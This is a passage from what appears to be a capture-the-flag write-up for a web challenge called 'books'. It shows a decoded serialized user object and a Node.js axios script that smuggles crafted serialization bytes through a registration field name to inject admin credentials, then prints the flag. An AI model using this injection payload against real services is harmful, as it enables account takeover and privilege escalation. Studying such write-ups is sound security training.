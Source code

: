 What does it look like after decoding?

```javascript
// ENCODED_PAYLOAD AFTER DECODING
{ name: 'admin',
  age: 20,
  desc: 13,
  'zzzz½½½½½': '\u0001\u00bb\u0000\u0000\u0000',
  id:
   '8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918',
  password:
   '65e84be33532fb784c48129675f9eff3a682b27168c0ea744b2cf58ee02337c5',
  pl:
   '\u0000\u0000\b\u0000\u0000\u0000password\u0001@\u0000\u0000\u000065e84be33532fb784c48129675f9eff3a682b27168c0ea744b2cf58ee02337c5\u0002\u0000\u0000\u0000id\u0001@\u0000\u0000\u0000deadbeefb5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918' }
```

We're IN! now i just have to register with that payload.

```javascript
// Requires NodeJs
// and `npm install axios`
const axios = require('axios');
const querystring = require('querystring');

axios({
    method: 'post',
    url: `https://books.web.ctfcompetition.com/user/register`,
    headers: {
        referer: 'https://books.web.ctfcompetition.com/user/register',
        'Content-Type': 'application/x-www-form-urlencoded',
    },
    data: querystring.stringify({
        'name': 'nytr0gen31337',
        'age': 20,
        'desc': 13,
        "zzzz\u00bd\u00bd\u00bd\u00bd\u00bd\u0001\u0005\u0000\u0000\u0000": "\u0004\u0000\u0000\u0000name\u0001\u0005\u0000\u0000\u0000admin" +
        "\u0002\u0000\u0000\u0000id\u0001@\u0000\u0000\u00008c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918" +
        "\u0008\u0000\u0000\u0000password\u0001@\u0000\u0000\u000065e84be33532fb784c48129675f9eff3a682b27168c0ea744b2cf58ee02337c5" +
        "\u0002\u0000\u0000\u0000pl\u0001\u00ff\u00ff\u0000\u0000",
        'password': 'qwerty',
    }),
}).then((response) => {
    console.log(response.data);
}).catch((err) => {
    console.error(err);
});
```

login as `nytr0gen31337` and we're finished, go to my books.

```
CTF{1892b0d8bc93d7e4ca98975f47f8c7d8}
```

that look like an md5. what's in there?
